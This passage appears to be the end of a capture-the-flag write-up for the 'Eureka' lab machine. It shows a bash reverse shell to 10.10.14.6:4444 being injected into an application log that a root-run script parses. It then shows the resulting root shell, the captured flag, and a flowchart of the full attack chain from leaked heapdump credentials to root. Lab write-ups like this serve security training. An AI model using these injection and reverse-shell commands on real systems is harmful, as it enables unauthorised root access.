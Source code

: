 Start a listener on kali: `rlwrap nc -nlvp 4444`

Remove `/var/www/web/cloud-gateway/log/application.log` and replace with reverse shell connection command:

```console
miranda-wise@eureka:~$ rm -f /var/www/web/cloud-gateway/log/application.log
miranda-wise@eureka:~$ echo 'HTTP Status: x[$(bash -i >& /dev/tcp/10.10.14.6/4444 0>&1)]' > /var/www/web/cloud-gateway/log/application.log
```

Reverse shell hooked and get root flag:

```console
root@kali:~# rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.66] 34622
bash: cannot set terminal process group (88044): Inappropriate ioctl for device
bash: no job control in this shell
root@eureka:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@eureka:~# cat root.txt
cat root.txt
0466424f8eebd210285c9968c792c042
```

## 5. Summary

```mermaid
flowchart TD
  A(furni.htb webapp) -->|nuclei vulnerability scanner| B(Discover springboot heapdump)
  B -->|Credentials for oscar190| C(SSH access to target as oscar190)
  C -->|SSH port mapping from kali to target localhost:8761| D(Access to Eureka)
  B -->|Connection string to localhost:8761 with EurekaSrvr credentials| D
  D -->|Exploit USER-MANAGEMENT-SERVICE| E(Credentials for miranda-wise)
  E -->|SSH connection to target as miranda-wise| E1[user.txt]
  E -->|Exploring for interesting files| F(Discover log_analyse.sh script and application.log file)
  F -->|Plant reverse shell code in application.log| G(Reverse shell as root)
  G --> G1[root.txt]
```
